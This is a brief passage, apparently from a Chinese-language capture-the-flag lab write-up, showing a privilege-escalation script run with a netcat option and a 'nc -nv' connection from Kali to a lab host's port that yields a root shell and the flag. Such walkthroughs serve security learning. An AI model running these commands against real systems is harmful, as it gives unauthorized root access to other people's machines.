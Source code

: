 
运行

```
bash pri.sh -m netcat
```

![image-20211007220943261](/assets/img/image-20211007220943261.png)

在kali上创建连接后，拿到root权限shell

```
nc -nv 172.16.89.9 31337 
```

![image-20211007221027898](/assets/img/image-20211007221027898.png)

获得flag

![image-20211007221320899](/assets/img/image-20211007221320899.png)